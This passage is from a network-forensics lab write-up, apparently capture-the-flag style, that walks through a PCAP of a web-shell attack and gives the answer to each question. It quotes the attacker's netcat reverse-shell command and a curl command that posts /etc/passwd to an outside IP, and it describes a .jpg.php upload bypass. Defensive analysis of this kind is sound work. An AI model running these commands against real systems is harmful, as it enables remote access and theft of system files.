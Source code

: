 It's in the payload:

```php
nc 117.11.88.124 8080
```

**Answer:** 8080 ✅

---

### Q6: File Exfiltrated - /etc/passwd {#q6-file-exfiltrated--etcpasswd}

**Approach:** I'm thinking, I'm trying to find a **GET**, **POST**, or **reverse shell command** where the attacker tried to `cat`, `scp`, `nc`, or `curl` a sensitive file. Time to follow the shell session. I filtered by:

```wireshark
ip.addr == 117.11.88.124 && tcp.port == 8080
```

Then followed the TCP stream.
> SIDE NOTE: It's also possible that the exfil was done over HTTP which is rare but in that case I would've used the filter `http.request`


Inside that reverse shell session, attacker executes:

```bash
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

**Answer:** `passwd` ✅

---

## Key Takeaways

* Double-extension bypass (.jpg.php) highlights weak filename filters. Never trust a file extension. Attackers still rely on old tricks. Weak upload filters are low-hanging fruit
* PCAPs don't lie, Wireshark is a beast if you know what to filter, everything is traceable


---

## What I'd Do Next

* Add detection logic for `multipart/form-data` with `.php` in any filename
* Write a Sigma rule for GET requests to `/uploads/.*\.php`
* Develop SIEM rules, and set alerts on outbound traffic to non-standard ports (8080, 1337, etc.)
* Lock down MIME type validation in upload endpoints
* Disable PHP execution in `/uploads/` via `.htaccess`

---
## Try This Lab Yourself
